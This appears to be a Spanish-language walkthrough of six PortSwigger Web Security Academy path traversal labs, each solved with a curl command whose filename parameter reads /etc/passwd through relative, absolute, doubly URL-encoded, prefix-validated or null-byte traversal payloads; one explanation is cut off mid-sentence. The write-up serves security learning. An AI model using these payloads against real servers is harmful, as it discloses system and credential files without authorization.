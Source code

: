 # Path Traversal

## Reading arbitrary files via directory traversal

### Lab 1: File path traversal, simple case

En este laboratorio nos indican que la página tiene una vulnerabilidad de path traversal en la visualización de imagenes de los productos. Sacamos el link de alguna de las imágenes para realizar las pruebas.

`https://acec1fab1f1086c6c0ecada300b800d0.web-security-academy.net/image?filename=37.jpg`

Para estos laboratorios variaremos el valor de filename para conseguir leer algún archivo que no deberíamos poder leer(/etc/passwd). Para ello usaremos **curl** o también podemos usar **burp suite**, pero necesitamos ver la respuesta del servidor en un formato crudo.


```bash
curl -i "https://acec1fab1f1086c6c0ecada300b800d0.web-security-academy.net/image?filename=../../../etc/passwd"
```

![path1.png](path1.png)

Si lo probamos en el navegador el mismo enlace nos mostrará que intenta intrepretar la imagen con el resultado, debido a que la respuesta indica que el tipo de archivo que ha enviado en una imágen. Esta "imágen" no tiene el formato de imágen por eso no sabe como leerlo.

## Common obstacles to exploiting file path traversal vulnerabilities

### Lab 2: File path traversal, traversal sequences blocked with absolute path bypass

Para este caso usamos una ruta absoluta en vez de una relativa como el laboratorio anterior.

```bash
curl -i "https://ac2a1f791e91ea97c04202cc00de005a.web-security-academy.net/image?filename=/etc/passwd"
```

![path2.png](path2.png)

### Lab 3: File path traversal, traversal sequences stripped non-recursively

El servidor esta reemplazando ".." con "." y "./" con "/", por lo que si colocamos el doble de
```bash
curl -i "https://ac891fec1fefc508c0446bad00c300c5.web-security-academy.net/image?filename=....//....//....//....//....//etc/passwd"
```

![path3.png](path3.png)

### Lab 4: File path traversal, traversal sequences stripped with superfluous URL-decode
El servidor filtra algunas entradas contra path traversal y sanitiza con una función URL-decode para evitar que ofusquen los simbolos "../", es por ello que ingresamos `../../../etc/passwd` encodificado con URL-encode 2 veces.
```bash
curl -i "https://ac9f1ff81ff79e24c0a82d5d00200087.web-security-academy.net/image?filename=..%252f..%252f..%252fetc/passwd"
```

### Lab 5: File path traversal, validation of start of path

En este caso es necesario que en la entrada este `/var/www/images/` sino filtran la respuesta.
```bash
curl -i "https://acb11fd61fdcf6d0c02a932400b9000e.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd"
```

### Lab 6: File path traversal, validation of file extension with null byte bypass

En el laboratorio requiere que tenga la extension .png para permitir la consulta. Sin embargo podemos cortar la cadena del nombre con %00 que vendría a ser el caracter nulo que se usa para cerrar una cadena.
```bash
curl -i "https://acf61fbf1e7846a6c0ff09bc000c0038.web-security-academy.net/image?filename=../../../../etc/passwd%00.png"
```